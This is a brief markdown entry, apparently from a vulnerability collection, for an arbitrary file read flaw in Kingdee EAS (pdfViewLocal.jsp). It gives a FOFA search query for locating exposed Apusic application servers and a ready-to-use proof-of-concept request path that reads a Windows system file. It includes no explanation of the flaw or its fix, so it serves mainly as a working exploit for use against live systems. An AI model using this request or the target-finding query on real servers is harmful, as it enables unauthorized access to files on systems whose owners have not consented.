 ## 金蝶EAS_pdfviewlocal任意文件读取漏洞

## fofa
```
app="Apusic应用服务器"
```

## poc
```
/plt_document/fragments/content/pdfViewLocal.jsp?path=C:/Windows/win.ini
```
![5dbb763accc017208e1c47753ca10d55](https://github.com/wy876/wiki/assets/139549762/ed768d82-5a1d-487c-8c27-e5dcae06e73d)
